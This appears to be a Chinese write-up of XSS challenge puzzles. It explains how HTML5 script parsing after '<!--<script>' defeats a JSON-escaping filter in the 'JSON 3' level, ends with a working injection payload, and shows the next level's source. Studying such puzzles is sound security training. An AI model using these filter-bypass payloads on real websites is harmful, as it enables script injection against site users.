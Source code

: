 在html5中如果是 `<!–-<script>` 中的代码都会认为是JavaScript的代码，直到遇到了 `-->` 的结束标识符。

## JSON 3
```
function escape(s) {
  return s.split('#').map(function(v) {
      // Only 20% of slashes are end tags; save 1.2% of total
      // bytes by only escaping those.
      var json = JSON.stringify(v).replace(/<\//g, '<\\/');
      return '<script>console.log('+json+')</script>';
      }).join('');
}
```

我们需要填写的字符串的格式是payload#payload的格式。那么最后将会被渲染为：
```
<script>console.log("payload1")</script><script>console.log("payload2")</script>
```

这道题目同样是需要用到和 `TI(S)M` 题中一样的html5放入特性。即在html5中，`<!–<script>` 中的代码全部会被认为是JavaScript的代码，直到遇到了 `-->` 的结束标识符。

我们输入`<!--<script>#payload2`

得到：
```
<script>console.log("<!--<script>")</script><script>console.log("payload2")</script>
```

由于 `<!–-<script>` 中的代码都会认为是JavaScript的代码，所以可以将`</`的意义转变，变成 逻辑小于号和正则表达式。
需要在 `payload2` 中闭合正则表达式，并注意将里面的 `(` 转义或者 将其闭合，正则表达式中的 `()`  `[]`  `{}`有不同的意思。 `()` 是为了提取匹配的字符串。表达式中有几个 `()` 就有几个相应的匹配字符串。否则报错
```
Error: Uncaught SyntaxError: Invalid regular expression: /script><script>console.log("/: Unterminated group
```
简化下：
```
console.log("<!--<script>")   <        /script><script>console.log(")/;       alert(1)
也就是
console()    小于号    /正则表达式/ ;  alert(1)
```
还要注意在 js中将 `-->` 放在注释里面。


payload:
```
<!--<script>#)/;alert(1)//-->
```
## K'Z'K
```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    return '<script>console.log("' + s + '");</script>';
}
```
